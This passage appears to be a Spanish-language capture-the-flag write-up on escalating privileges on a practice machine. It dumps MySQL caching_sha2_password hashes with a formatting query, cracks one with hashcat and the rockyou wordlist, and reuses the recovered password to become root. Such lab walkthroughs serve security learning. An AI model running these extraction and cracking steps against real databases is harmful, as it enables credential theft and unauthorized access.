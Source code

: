 Enumeramos la tabla de user
![[Pasted image 20240805095950.png]]

Al intentar listar la tabla de forma normal no podemos leer la información de forma correcta, asi que la listamos de forma vertical
```
SELECT * FROM mysql.user WHERE User = 'dev' \G
```
![[Pasted image 20240805095326.png]]

Y encontramos este plugging
![[Pasted image 20240805095403.png]]

Buscamos información por internet
![[Pasted image 20240805095622.png]]

Ahora sabiendo como cifra las credenciales tendremos que buscar como hacer para que la salida muestre el hash de los usuarios, en la siguiente web tenemos ejemplos de los hashes
```
https://hashcat.net/wiki/doku.php?id=example_hashes
```

Si buscamos el hash en concreto encontramos el siguiente comando que al ejecutarlo obtenemos los hashes de los usuarios
```
SELECT user, CONCAT('$mysql', SUBSTR(authentication_string,1,3), LPAD(CONV(SUBSTR(authentication_string,4,3),16,10),4,0),'*',INSERT(HEX(SUBSTR(authentication_string,8)),41,0,'*')) AS hash FROM user WHERE plugin = 'caching_sha2_password' AND authentication_string NOT LIKE '%INVALIDSALTANDPASSWORD%';
```
![[Pasted image 20240805100855.png]]

Copiamos el hash
```
$mysql$A$0005*1C160A38777C5121134E5D725A58216D5A1D5C3F*6F6B2F577851456465524C4E6771587057456634734A6F6E5A656361774655697A4438466F6B654935462E
```
![[Pasted image 20240805101016.png]]

Ahora crackeamos el hash con hashcat
```
hashcat -a 0 hash.txt /usr/share/wordlists/rockyou.txt 
```
![[Pasted image 20240805101536.png]]

Y nos desencripta el hash
```
armadillo
```
![[Pasted image 20240805101634.png]]

El hash de este usuario no esta en el sistema, pero podremos probar si se ha reutilizado la password, la probamos con root y ya hemos escalado los privilegios
![[Pasted image 20240805101747.png]]

Y obtenemos la ultima flag
![[Pasted image 20240805101952.png]]